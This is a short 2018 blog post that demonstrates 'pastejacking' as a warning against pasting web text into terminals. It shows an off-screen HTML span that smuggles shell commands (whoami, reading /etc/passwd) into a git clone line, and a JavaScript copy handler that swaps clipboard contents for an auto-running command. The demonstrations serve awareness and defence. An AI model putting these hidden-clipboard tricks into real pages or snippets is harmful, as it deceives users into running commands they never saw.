 ```yaml
---
layout: post
title: Dangerous Clipboards
date: '2018-04-24 13:11'
---
```

Have you ever cut/copied/pasted into a terminal window? Here's one of a few reasons why you shouldn't:

note -- another example here: view-source:https://security.love/Pastejacking/

### example 1:
{::nomarkdown}
    <code>
      <!-- Oh noes, you found it! credits go to http://thejh.net/misc/website-terminal-copy-paste-->
      git clone
      <span style="position: absolute; left: -100px; top: -100px">/dev/null; clear; echo -n "Hello ";whoami|tr -d '\n';echo -e '!\nThat was a bad idea. Don'"'"'t copy code from websites you don'"'"'t trust!<br>Here'"'"'s the first line of your /etc/passwd: ';head -n1 /etc/passwd<br>git clone </span>
      git://git.kernel.org/pub/scm/utils/kup/kup.git
    </code>
{:/}


### example 2:
{::nomarkdown}
  <!-- credit to https://security.love/Pastejacking/ -->
 <code>echo "not evil"</code>
        <script>
            document.addEventListener('copy', function(e){
                console.log(e);
                e.clipboardData.setData('text/plain', 'echo "evil"\r\n');
                e.preventDefault(); // We want our data, not data from any selection, to be written to the clipboard
            });
        </script>

{:/}